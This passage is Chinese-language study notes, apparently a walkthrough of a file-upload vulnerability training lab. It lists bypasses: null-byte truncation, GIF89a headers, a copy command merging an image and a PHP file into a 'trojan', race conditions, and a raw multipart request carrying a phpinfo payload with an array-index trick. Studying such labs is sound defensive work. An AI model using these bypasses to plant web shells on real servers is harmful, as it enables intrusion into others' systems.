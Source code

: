 ```
但是post的%00需要urldecode
原因：apache不会给%00自动解码
```
##### （14-16）文件包含漏洞
```
include函数可以把包含的所有任意文件都当做php来执行
方法（两种）：
a.在代码最前面写上GIF89a
b.文件合并制作木马
打开命令行，copy kfc1.jpg /a + haha.php /b muma.jpg

木马上传之后，利用文件包含漏洞来测试
?file=...
```
##### （17）
```
先把文件移动到文件夹，再进行判断是否删除。既然文件会移动到文件夹，那就会有一瞬间能够执行此文件。
```
##### （19）
```
.7z有时候也可以当作php执行
```
##### （20）
```
move_upload_file函数会忽略/.

Content-Disposition: form-data; name="upload_file"; filename="haha.php"
Content-Type: image/jpeg

GIF89a
<?php phpinfo()?>
-----------------------------200222961522119
Content-Disposition: form-data; name="save_name[0]"

upload-20.php/
-----------------------------200222961522119
Content-Disposition: form-data; name="save_name[2]"

jpg

注:
$file = array(0=>'no1', 2=>'no3');
$file中共有两个元素
$file[1]=null，即为空
```
